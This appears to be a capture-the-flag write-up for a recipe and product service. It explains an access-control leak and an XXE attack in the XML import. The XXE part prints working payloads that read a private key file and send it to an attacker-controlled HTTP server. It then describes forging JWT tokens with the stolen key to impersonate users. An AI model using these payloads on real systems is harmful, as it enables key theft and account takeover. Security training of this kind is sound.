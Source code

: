 ## 1. Flag in product manufacturer

It is possible to add products of other users to a dish. You still not be able to get product itself directly, but desired product field `manufacturer` is provided with products in ingredients list of a dish.

## 2. Flag in dish recipe

Second vulnerability is in XML import feature. Badly configured XmlReader allows to define external entities in XML as content of local text file or, for example, as response on GET request to external HTTP server, thus you can do XXE injection.

Luckily, RSA private key for signing access tokens is in *.pem* format so it can be a part of correct XML file. And if you steal private key, you can get authorized for any user as long as you know user id.

At first sight you can just define product name as content of *private.pem* file and get it with product:

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE products [
<!ENTITY xxe SYSTEM "file:///app/private.pem">
]>
<products>
    <product>
        <name>&xxe;</name>
        <calories>89</calories>
    </product>
</products>
```

But this XML would not be import because database allows only 100 symbols length for text fields of product. However it is possible to make file content a part of GET request. 

When you want to make entity a part of other entity, one XML document is not enough.

Suppose you start a server listening on address `http://192.168.0.101:20001`. Then you should import such XML:

```xml-dtd
<!DOCTYPE products [
<!ENTITY % xxe SYSTEM "http://192.168.0.101:20001">
%xxe;
%int;
]>

<products>
    <product>
        <name>&send;</name>
        <calories>89</calories>
    </product>
</products>
```

When XML-processor tries to determine value of `%xxe` entity, it send request to your server, which should reply with such content:

```xml-dtd
<!ENTITY % payl SYSTEM "file:///app/private.pem">
<!ENTITY % int "<!ENTITY send SYSTEM 'http://192.168.0.101:20001?p=%payl;'>">
```

Call to `%xxe` entity happens in `DOCTYPE` part (**Document Type Definition**) and it is defined with `%`. It means that this entity should contain not simple text to paste but some defenitions of other elements, entities and so on and before pasting XML-processor should prepare its content like correct fragment of Document Type Definition. So it pastes value of `%payl` in internal string entity `%int` and content of *private.pem* becomes query parameter value.

Then in initial XML call to `%int` defines entity `send`. And call to `&send ` in product name makes server to send request with *private.pem* content in query parameter to your server in order to know name of product. The implementation of this part of attack is presented in *xxe_handler.py* and *import_xml.py*



Let's look at structure of authorization token in https://jwt.io/:  

**Bearer eyJhbGciOiJQUzUxMiIsInR5cCI6ImF0K2p3dCJ9.eyJuYmYiOjE1NzQ1MTE4NDgsImV4cCI6MTU3NDUxNTQ0OCwiaXNzIjoiaHR0cDovLzEwLjYwLjIyLjI6NTAwMCIsImF1ZCI6IkhvdXNlaG9sZEFQSSIsImNsaWVudF9pZCI6IkhvdXNlaG9sZCIsInN1YiI6IjczOTZlY2ZmLTQ3MGQtNGU2YS04N2E4LWFlMGJhYmQ3OTUxZCIsImF1dGhfdGltZSI6MTU3NDUxMTg0NCwiaWRwIjoibG9jYWwiLCJzY29wZSI6WyJvcGVuaWQiLCJwcm9maWxlIiwiSG91c2Vob2xkQVBJIl0sImFtciI6WyJwd2QiXX0.ZXSgs7EZzm5sjxXb068bwIJLfnVJjZ5wpAmNueXgLY6qDLPEQZzaW6xDpOfT87QtqYpWJh9p3vWcINisCItFFMplTFi5pbxMfzOVrBlcTp7cD1V-oJ8JsD1-rddqNoGNYPG4kdV1sNcGknUZJHBtFuFn5cHLE61Jj2YD2SUnEl72Fw_cSYAuIvvo_PlbdbHwzbTWT2-yVj2eRlSm6wQeKiiXYnOa6JRqzVTpv-DzKQVJnBqTKHAmC8PNHNrk6nu6QAxUTQyeu4TiMBdSoA--wPXeq5DFHxsmdhAaKFE33JrWAFrkTlZAYzJJmTVUB8ypXZE7cPvmZbB7zv8qrCDOlQ**

In token there is authorization info and if you put in json any expire date (`"exp"`) and any user id (`"sub"`) and sign json by stolen private key, server will believe us and authorize.

```json
{
  "nbf": 1574511848,
  "exp": 1574515448,
  "iss": "http://10.60.22.2:5000",
  "aud": "HouseholdAPI",
  "client_id": "Household",
  "sub": "7396ecff-470d-4e6a-87a8-ae0babd7951d",
  "auth_time": 1574511844,
  "idp": "local",
  "scope": [
    "openid",
    "profile",
    "HouseholdAPI"
  ],
  "amr": [
    "pwd"
  ]
}
```

So you need to know user ids. You can iterate on dishes and get public data of dish without `recipe` field but with `createdBy`. With fake access tokens for users with dishes you can get all dish data including secret `recipe`. Also you get flags from product `manufacturer`.